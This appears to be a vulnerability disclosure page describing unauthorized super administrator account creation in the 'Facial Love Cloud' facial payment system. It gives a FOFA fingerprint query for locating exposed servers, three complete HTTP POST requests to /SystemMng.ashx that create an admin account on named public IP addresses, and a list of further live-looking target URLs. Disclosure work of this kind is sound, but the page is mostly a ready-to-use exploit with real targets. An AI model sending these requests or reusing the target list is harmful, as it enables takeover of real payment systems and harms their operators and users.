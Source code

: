 Unauthorized creation of super administrator account exists in Facial Love Cloud Facial Payment System Procedure

official website:  [http://www.szjocat.com/#](http://www.szjocat.com/#)
![image.png](https://cdn.nlark.com/yuque/0/2023/png/36030634/1699082462990-170530e7-b51a-434f-be1f-a826e7cd5121.png#averageHue=%23dde1dd&clientId=u20ef8c53-71fe-4&from=paste&height=734&id=ue0adbf25&originHeight=917&originWidth=1730&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=1010327&status=done&style=none&taskId=u608df680-c666-4b02-8a7b-06dc84e9e56&title=&width=1384)
Version:  All versions of this product

Function point:  Add super administrator option for personnel management in the system management center module

FOFA syntax

```
icon_hash="241050903" && ip!="101.200.146.70"
```
Instance reproduction1:
```
 http://140.210.211.116:1040/Login.aspx
```
![](https://cdn.nlark.com/yuque/0/2023/png/36030634/1698418397808-20962f45-6cb8-4c28-b6c8-ee0cf4844970.png#averageHue=%23bce3e5&clientId=ua4300237-c4cd-4&from=paste&id=u309383de&originHeight=818&originWidth=1359&originalType=url&ratio=1.25&rotation=0&showTitle=false&status=done&style=none&taskId=u96e94d27-1bda-4ca5-83d1-96012185657&title=)
Unauthorized creation of super administrator account, sending the following data packet with a status code of 200, and successfully creating user EDUSRC/edu123456
```
POST /SystemMng.ashx HTTP/1.1
Host: 140.210.211.116:1040
Content-Length: 176
Accept: /
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://140.210.211.116:1040
Referer: http://140.210.211.116:1040/Login.aspx
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

operatorName=EDUSRC&operatorPwd=edu123456&operpassword=123&operatorRole=00&visible_jh=%E8%AF%B7%E9%80%89%E6%8B%A9&visible_dorm=%E8%AF%B7%E9%80%89%E6%8B%A9&funcName=addOperators
```
![](https://cdn.nlark.com/yuque/0/2023/png/36030634/1698418483134-2aa9afb9-6bcc-4f27-86ab-8e561063be9f.png#averageHue=%23f8f7f7&clientId=ua4300237-c4cd-4&from=paste&id=u75cfc394&originHeight=489&originWidth=1128&originalType=url&ratio=1.25&rotation=0&showTitle=false&status=done&style=none&taskId=u018f9a50-0f23-4f84-835c-0466da6d27d&title=)
Instance reproduction2:
```c
 http://140.210.211.116:1200/Login.aspx
```
![](https://cdn.nlark.com/yuque/0/2023/png/36030634/1699081210248-7330b7d6-1e0b-4b8e-9d73-016e6e4f15d5.png#averageHue=%23c0e5e8&clientId=u20ef8c53-71fe-4&from=paste&id=u9df9c9f1&originHeight=964&originWidth=1513&originalType=url&ratio=1.25&rotation=0&showTitle=false&status=done&style=none&taskId=uc24d3d85-5184-4e48-bb0d-8e6bbb8b8f7&title=)
Unauthorized creation of super administrator account, sending the following data packet with a status code of 200, and successfully creating user EDUSRC/edu123456
```c
POST /SystemMng.ashx HTTP/1.1
Host: 140.210.211.116:1040
Content-Length: 176
Accept: /
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://140.210.211.116:1040/Login.aspx
Referer: http://140.210.211.116:1040/Login.aspx
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

operatorName=EDUSRC&operatorPwd=edu123456&operpassword=123&operatorRole=00&visible_jh=%E8%AF%B7%E9%80%89%E6%8B%A9&visible_dorm=%E8%AF%B7%E9%80%89%E6%8B%A9&funcName=addOperators
```
![](https://cdn.nlark.com/yuque/0/2023/png/36030634/1699081237456-a8db3d74-c130-46dc-ab66-692ec67d96ec.png#averageHue=%23f8f8f7&clientId=u20ef8c53-71fe-4&from=paste&id=u0f7d4a5d&originHeight=523&originWidth=1124&originalType=url&ratio=1.25&rotation=0&showTitle=false&status=done&style=none&taskId=ufe46a16e-c531-4532-bf85-6c14af2fb64&title=)
![](https://cdn.nlark.com/yuque/0/2023/png/36030634/1699081245115-bbfe7290-d207-472d-aae8-6ea4d4785e44.png#averageHue=%23263422&clientId=u20ef8c53-71fe-4&from=paste&id=u371b86f1&originHeight=820&originWidth=1587&originalType=url&ratio=1.25&rotation=0&showTitle=false&status=done&style=none&taskId=u14e9566d-1329-48b8-8418-2113fdff759&title=)
Instance reproduction3:
```c
 http://116.63.182.155:1000/Login.aspx
```
![](https://cdn.nlark.com/yuque/0/2023/png/36030634/1699081351874-bce07a19-cee4-4277-8f20-4b1b60985780.png#averageHue=%232c3825&clientId=u20ef8c53-71fe-4&from=paste&id=u1cb21288&originHeight=922&originWidth=1642&originalType=url&ratio=1.25&rotation=0&showTitle=false&status=done&style=none&taskId=u69b8f046-175f-4bf3-984e-a33b18df6f3&title=)
Unauthorized creation of super administrator account, sending the following data packet with a status code of 200, and successfully creating user EDUSRC/edu123456
```c
POST /SystemMng.ashx HTTP/1.1
Host: 116.63.182.155:1000
Content-Length: 176
Accept: /
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://116.63.182.155:1000
Referer: http://116.63.182.155:1000/View/SystemMng/OperatorMng.aspx
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

operatorName=EDUSRC&operatorPwd=edu123456&operpassword=123&operatorRole=00&visible_jh=%E8%AF%B7%E9%80%89%E6%8B%A9&visible_dorm=%E8%AF%B7%E9%80%89%E6%8B%A9&funcName=addOperators
```
![](https://cdn.nlark.com/yuque/0/2023/png/36030634/1699081383607-492441a8-879b-4f38-9267-8cca520853dd.png#averageHue=%23f8f7f7&clientId=u20ef8c53-71fe-4&from=paste&id=u4b2ec76e&originHeight=492&originWidth=1222&originalType=url&ratio=1.25&rotation=0&showTitle=false&status=done&style=none&taskId=u4c736dff-8868-46da-81dc-8ab1d1a1539&title=)
![](https://cdn.nlark.com/yuque/0/2023/png/36030634/1699081392305-2396cd8d-4f22-4777-a56a-7e98f112e6fb.png#averageHue=%23263422&clientId=u20ef8c53-71fe-4&from=paste&id=u5af43abe&originHeight=936&originWidth=1629&originalType=url&ratio=1.25&rotation=0&showTitle=false&status=done&style=none&taskId=u2599b7db-09a7-4d1c-889a-c9a70b65010&title=)
Other examples:
[http://1.15.20.244:1000/Login.aspx](http://1.15.20.244:1000/Login.aspx)
[http://8.134.140.252:1200/Login.aspx](http://8.134.140.252:1200/Login.aspx)
[http://221.233.243.136:1000/Login.aspx](http://221.233.243.136:1000/Login.aspx)
[http://ytwl.rlyzf.com:2000/Login.aspx](http://ytwl.rlyzf.com:2000/Login.aspx)
[http://101.34.53.232:898/Login.aspx](http://101.34.53.232:898/Login.aspx)
http://140.210.211.116:1040/Login.aspx
http://47.119.159.94:1000/Login.aspx



